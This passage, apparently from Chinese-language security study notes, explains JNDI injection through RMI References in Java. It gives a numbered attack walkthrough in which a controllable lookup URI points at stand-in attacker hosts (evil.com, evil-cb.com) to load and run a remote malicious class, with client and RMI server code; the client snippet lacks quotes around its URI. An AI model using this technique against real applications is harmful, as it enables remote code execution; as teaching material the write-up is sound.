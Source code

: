 在lookup()的源码也可以看到，getURLOrDefaultInitCtx()尝试获取对应协议的上下文环境



## JNDI注入

### 利用JNDI References进行注入（RMI）

RMI Server除了可以直接绑定远程对象外（先new后bind），还能通过`References`类来直接绑定外部远程对象。

当绑定在RMI注册表中的Reference，指向恶意远程class文件。并且JNDI客户端lookup()参数可控（或者Reference指定远程类参数可控），能实现RCE

> 攻击原理：
>
> 1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
> 2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
> 3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
> 4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
> 5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
> 6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

* 示例：

JNDIClient：

```java
public class JNDIClient {
    public static void main(String[] args) throws Exception {
        Context ctx = new InitialContext();
        ctx.lookup(rmi://127.0.0.1:1099/refObj);
    }
}
```

RMIServer：

RMI绑定的远程对象需要继承UnicastRemoteObject类并实现Remote接口，ReferenceWrapper类就符合条件。用ReferenceWrapper对Reference进行封装。

```java
public class RMIService {
    public static void main(String args[]) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);//Registry写在server里
        Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        registry.bind("refObj", refObjWrapper);
    }
}
```

其中Reference构造函数的第一个参数是在本地查找EvilObject类，如果没有，就从`http://127.0.0.1:8080/`搜索第二个参数名的EvilObject类

```java
Reference refObj = new Reference("EvilObject", "EvilObject", "http://127.0.0.1:8080/");
```
